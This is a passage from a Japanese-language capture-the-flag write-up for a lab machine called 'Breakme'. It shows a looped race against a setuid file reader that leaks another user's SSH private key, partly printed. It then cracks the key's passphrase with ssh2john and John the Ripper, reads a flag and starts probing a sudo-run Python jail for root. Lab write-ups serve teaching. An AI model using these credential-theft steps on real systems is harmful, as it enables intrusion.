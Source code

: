 exec_readfile.sh

```sh
#!/bin/bash

for i in {1..10000}; do
  /home/youcef/readfile /home/john/A
done
```

実行。SSH 秘密鍵を入手できた。

```sh
john@Breakme:~$ ./loop.sh &
[1] 78329

john@Breakme:~$ ./exec_readfile.sh  | grep -v 'File Not Found' | grep -v 'I guess' | grep -v '^$'
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCGzrHvF6
（中略）
g6a2xx9zV89mfWvuvrXDBX2VkdnvdvDHQRx+3SElSk1k3Votzw/q383ta6Jl3EC/1Uh8RT
TabCXd2Ji/Y7UvM=
-----END OPENSSH PRIVATE KEY-----
```

パスフレーズが設定されているのでクラックした。

```sh
$ ssh2john ./id_rsa > ./hash
$ john ./hash
```

フラグ２ゲット。

```sh
youcef@Breakme:~$ cat .ssh/user2.txt
df5................................
```

## 権限昇格３

```sh
youcef@Breakme:~$ sudo -l
Matching Defaults entries for youcef on breakme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User youcef may run the following commands on breakme:
    (root) NOPASSWD: /usr/bin/python3 /root/jail.py
```

jail.py の中身は不明。

```sh
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>> help
Illegal Input

youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>> hey
Wrong Input
>> hey
Wrong Input
>> id
```